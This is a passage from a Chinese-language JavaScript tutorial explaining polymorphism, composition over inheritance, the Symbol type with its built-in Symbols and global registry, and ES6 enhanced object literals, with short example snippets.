  speak() {
    console.log(`hello, my name is ${this.name}`)
  }
}

class ChinesePerson extends Person {
  speak() {
    console.log(`你好，我的名字叫${this.name}`)
  }
}

const persons = [new EnglishPerson('jack'), new ChinesePerson('杰克')]
persons.forEach((person) => {
  person.speak() // 各自调用自己的实现
  person.doSome() // 继承来的公共方法
})
```

JavaScript 是弱类型语言，只要对象有同名方法就能调用，不要求有共同的父类，因此可以说是“天生支持多态”：

```javascript
const dog = { speak() { console.log('汪汪') } }
const cat = { speak() { console.log('喵喵') } }

;[dog, cat].forEach((animal) => animal.speak())
```

#### 19.19.4 组合优于继承

继承表达的是“是一个”（is-a）的关系，组合表达的是“有一个”（has-a）的关系。继承层级一深，父类改动会影响所有子类，而且 JavaScript 不支持多继承，很容易写出重复代码。

**用继承的痛点**：`Duck` 既要 `walk` 又要 `swim`，只能重复实现：

```javascript
class Animal {
  eat() { console.log('吃饭') }
}
class Dog extends Animal {
  walk() { console.log('走路') }
}
class Fish extends Animal {
  swim() { console.log('游泳') }
}
class Duck extends Animal {
  walk() { console.log('走路') } // 重复
  swim() { console.log('游泳') } // 重复
}
```

**用组合 + 工厂函数**：把能力拆成一个个小对象，需要什么就拼什么：

```javascript
const canEat = { eat() { console.log('吃饭') } }
const canWalk = { walk() { console.log('走路') } }
const canSwim = { swim() { console.log('游泳') } }

// Object.assign 把能力复制到新对象上
function createDog() {
  return Object.assign({}, canEat, canWalk)
}
function createFish() {
  return Object.assign({}, canEat, canSwim)
}
function createDuck() {
  return Object.assign({}, canEat, canWalk, canSwim)
}

const duck = createDuck()
duck.eat()
duck.walk()
duck.swim()
```

**更简洁的 ES6 写法**：用展开运算符合并能力对象：

```javascript
const eater = { eat() { console.log('吃饭') } }
const walker = { walk() { console.log('走路') } }
const swimmer = { swim() { console.log('游泳') } }

// 箭头函数返回对象时要加小括号，否则 {} 会被当成函数体
const createDog2 = () => ({ ...eater, ...walker })
const createFish2 = () => ({ ...eater, ...swimmer })
const createDuck2 = () => ({ ...eater, ...walker, ...swimmer })
```

> 提示
>
> 组合就像搭积木：需要什么能力就拼什么，不用为了复用某个方法去硬造一条继承链；运行时还能动态增删能力，比继承灵活得多。

### 19.20 Symbol 类型详解

`Symbol` 是 ES6 引入的一种**基本数据类型**，用于创建**唯一的、不可变的值**，通常作为对象属性的键，避免属性名冲突。

#### 19.20.1 主要作用

1. **防止属性名冲突**：每个 `Symbol` 值都是唯一的，用作属性名时不会被意外覆盖
2. **内置 Symbol**（如 `Symbol.iterator`）用于定义对象的默认行为，如迭代

#### 19.20.2 创建 Symbol

```javascript
const sym1 = Symbol()
const sym2 = Symbol('description') // 描述字符串仅用于调试
const sym3 = Symbol('description')

console.log(sym1 === sym2) // false
console.log(sym2 === sym3) // false，描述相同也是两个不同的值
```

> 注意
>
> `Symbol('id')` 是绝对独一无二的，同一个程序里写两次就代表两个不同的值，不能靠描述来比较。

#### 19.20.3 用作对象属性

Symbol 作为属性名时必须用**中括号 `[]`**（这是计算属性名语法，不是数组），访问时也不能用 `.`：

```javascript
const idSym = Symbol('id')

const user = {
  name: 'Alice',
  age: 25,
  [idSym]: '123'
}

console.log(user[idSym]) // '123'
// console.log(user.idSym) // undefined，点语法取不到
```

如果创建时直接写 `[Symbol('id')]` 而不把 Symbol 存起来，之后就没法再访问这个属性了，因为每次 `Symbol('id')` 都是新值：

```javascript
const user2 = {
  [Symbol('id')]: '123'
}
console.log(user2[Symbol('id')]) // undefined
```

**计算属性名**本身并不专属于 Symbol，任何表达式都可以放在 `[]` 里：

```javascript
const key = 'name'
const obj = {
  [key]: 'Alice' // 相当于 { name: 'Alice' }
}
```

#### 19.20.4 内置 Symbol

JavaScript 提供了一系列内置 Symbol，用来控制对象的内部行为。最常用的有三个：

**`Symbol.iterator`**：让对象可被 `for...of`、展开运算符、解构使用（原理见 19.6.2）：

```javascript
const range = {
  from: 1,
  to: 5,
  *[Symbol.iterator]() {
    for (let i = this.from; i <= this.to; i++) {
      yield i
    }
  }
}

console.log([...range]) // [1, 2, 3, 4, 5]
```

**`Symbol.toStringTag`**：修改 `Object.prototype.toString.call()` 返回的 `[object 类型]` 中的类型名：

```javascript
class MyClass {
  get [Symbol.toStringTag]() {
    return 'MyCustomClass'
  }
}

const instance = new MyClass()
console.log(Object.prototype.toString.call(instance)) // '[object MyCustomClass]'
```

**`Symbol.toPrimitive`**：定义对象转换为原始值（字符串、数字）时的规则，JS 引擎会自动调用，并传入 `hint` 参数，值为 `'number'`、`'string'` 或 `'default'`：

```javascript
const user3 = {
  age: 30,
  [Symbol.toPrimitive](hint) {
    if (hint === 'number') {
      return this.age
    }
    if (hint === 'string') {
      return `年龄：${this.age}`
    }
    return `{age: ${this.age}}`
  }
}

console.log(user3 + 10) // '{age: 30}10'，触发 default
console.log(Number(user3)) // 30，触发 number
console.log(String(user3)) // '年龄：30'，触发 string
```

#### 19.20.5 Symbol 的特点

* **不可枚举**：Symbol 属性不会出现在 `for...in`、`Object.keys()`、`JSON.stringify()`、`Object.getOwnPropertyNames()` 中
* 可以通过 `Object.getOwnPropertySymbols()` 单独获取：

```javascript
const sym = Symbol('key')
const obj = { [sym]: 'value' }

console.log(Object.getOwnPropertySymbols(obj)) // [Symbol(key)]
```

> 提示
>
> 只有拿到 `sym` 这个变量的人才能通过 `obj[sym]` 访问该属性，所以 Symbol 可以**模拟私有属性**（只是隐藏，不是真正的私有）。这与 19.19.2 的 `#` 私有字段不同。

#### 19.20.6 跨模块共享：Symbol.for

`Symbol()` 每次都会创建新值；`Symbol.for(key)` 会先查**全局注册表**，已存在同名 Symbol 就直接返回，否则新建并注册：

```javascript
const sym3 = Symbol.for('foo') // 创建并注册
const sym4 = Symbol.for('foo') // 从注册表获取
console.log(sym3 === sym4) // true，全局唯一
```

跨模块共享：模块 A 导出用 `Symbol.for` 创建的 Symbol，模块 B 既可以直接导入，也可以用同样的 key 从注册表取到同一个值：

```javascript
// A.js
export const sharedSymbol = Symbol.for('APP_KEY')

// B.js
import { sharedSymbol } from './A.js'
console.log(sharedSymbol === Symbol.for('APP_KEY')) // true
```

`Symbol.keyFor()` 根据全局 Symbol 返回它的描述；用 `Symbol()` 创建的非全局 Symbol 无法检索：

```javascript
console.log(Symbol.keyFor(Symbol.for('foo'))) // 'foo'
console.log(Symbol.keyFor(Symbol('foo'))) // undefined
```

> 注意
>
> `Symbol.for` 会污染全局注册表，只在确实需要跨模块共享时使用，其余场景优先用 `Symbol()`。

### 19.21 对象字面量的增强

ES6 对对象字面量做了增强，统称 **Enhanced Object Literals（增强对象字面量）**，共有三种写法。

#### 19.21.1 属性的简写

当属性名和变量名相同时，只写变量名即可：

```javascript
const name = '小明'
const age = 18

// ES6 之前
const user1 = { name: name, age: age }

// ES6 之后
const user2 = { name, age }
```

#### 19.21.2 方法的简写

对象里的方法可以省略 `: function`：

```javascript
const user = {
  // 完整写法
  sayHi: function () {
    console.log('hi')
  },
  // 简写
  sayHello() {
    console.log('hello')
  }
}

user.sayHello() // hello
```

> 注意
>
> 简写的方法**不能当作构造函数**用 `new` 调用（会报 `TypeError`）；箭头函数也不能，只有 `function` 写法和 `class` 里的方法可以。

#### 19.21.3 计算属性名

属性名可以用 `[]` 包住一个表达式，运行时才求值：

```javascript
const key = 'name'

const obj = {
  [key]: '小明', // 等价于 name: '小明'
  [`${key}Length`]: 2, // 等价于 nameLength: 2
  ['get' + 'Age']() {
    return 18
  }
}

console.log(obj.name) // 小明
console.log(obj.nameLength) // 2
console.log(obj.getAge()) // 18
```

用 Symbol 作为对象的键，用的也是计算属性名语法：`{ [sym]: 'value' }`（见 19.20.3）。

> 提示
>
> 三种增强可以混用，例如 `const obj = { name, [key]: 1, method() {} }`。它们只是写法上的简化，生成的仍然是普通对象，底层行为没有变化。
